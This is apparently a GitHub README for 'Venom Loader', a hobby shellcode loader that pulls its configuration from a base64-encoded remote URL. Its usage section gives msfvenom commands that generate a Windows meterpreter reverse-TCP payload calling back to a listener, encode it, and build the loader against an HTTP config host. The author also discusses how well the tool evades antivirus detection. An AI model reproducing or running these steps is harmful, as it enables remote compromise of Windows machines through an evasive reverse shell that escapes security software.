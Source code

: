 
# Venom Loader

A tiny shellcode loader I am having fun with. It reads a JSON file from a base64 encoded URL. It works rather nicely and works mostly as advertised.




## Usage/Examples

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<LISTENER_IP> LPORT=<LISTENER_PORT> -f raw -o WHATEVER.bin
base64 WHATEVER.bin > WHATEVERb64.bin
./builder.sh <http://IP/config> main.go
```
At this point the loader as well as a basic payload should be ready. Modify the main.go and instr file to suit your situation.
Keep in mind that the config is a json file that should be located in the same dir as the http server. This tries to be evasive but has various degrees of success with it. A meterpreter shell will be a coin toss on wether or not it gets caught but other payloads like popping calc, executing a fixed amount of commands work very nicely.
## To-Do

- Make a builder that automates creation of msf payload and base64 encoding it.
- Remove dependancy on https://github.com/D3Ext/maldev/ to reduce built binary size.
- Come up with a better name for the damned thing.
